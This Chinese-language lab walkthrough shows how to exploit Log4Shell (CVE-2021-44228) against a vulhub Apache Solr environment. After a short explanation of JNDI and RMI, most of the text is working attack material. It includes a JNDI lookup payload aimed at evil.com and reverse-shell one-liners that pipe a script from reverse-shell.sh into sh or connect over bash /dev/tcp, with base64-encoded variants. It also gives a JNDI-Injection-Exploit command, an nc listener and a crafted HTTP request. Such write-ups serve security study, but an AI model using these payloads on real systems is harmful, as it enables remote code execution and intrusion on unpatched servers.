


# Apache Log4j 2

**Apache Log4j 2** 是 Apache 软件基金会开发和维护的一个高性能、灵活和可靠的 Java 日志框架，是 Log4j 的下一代产品。它广泛用于企业级 Java 应用的日志记录与分析。

JNDI（Java Naming and Directory Interface，Java 命名和目录接口）是 Java 平台提供的一套 API，用于统一访问不同类型的命名和目录服务。

RMI 即 Remote Method Invocation（远程方法调用），是 Java 提供的一种远程通信机制，允许一个 Java 程序调用另一个 Java 虚拟机（JVM）中对象的方法，就像调用本地对象一样。

## Log4shell(CVE-2021-44228)

在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}`的 lookup 用于进行 JNDI 注入，执行任意代码。

### 漏洞环境

```bash
cd vulhub/log4j/CVE-2021-44228
docker compose up
```

### 漏洞利用

```bash
nuclei -id apache-solr-log4j-rce -u http://192.168.200.1:8983
```

使用 JNDI 注入利用工具[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)，生成 JNDI 链接并启动后端相关服务。由于 `-C` 命令会被作为参数传入`Runtime.getRuntime().exec()`，传入的命令需要使用[Runtime.exec Payload Generater](https://ares-x.com/tools/runtime-exec)进行编码。

```
curl -k https://reverse-shell.sh/192.168.200.134:1337|sh
bash -c {echo,Y3VybCAtayBodHRwczovL3JldmVyc2Utc2hlbGwuc2gvNDcuOTYuMzguODc6MTMzN3xzaA==}|{base64,-d}|{bash,-i}

bash -i >& /dev/tcp/192.168.200.134/4444 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzQvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzQvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"
```



在 VPS 上 使用 `nc -lvp 4444` 监听

```http
GET /solr/admin/cores?action=%24%7bjndi%3aldap%3a%2f%2f192.168.200.134%3a1389%2f5sl4so%7d HTTP/1.1
Host: 192.168.200.1:8983
```



## 参考

<https://tttang.com/archive/1378/>
<https://www.anquanke.com/post/id/263325>
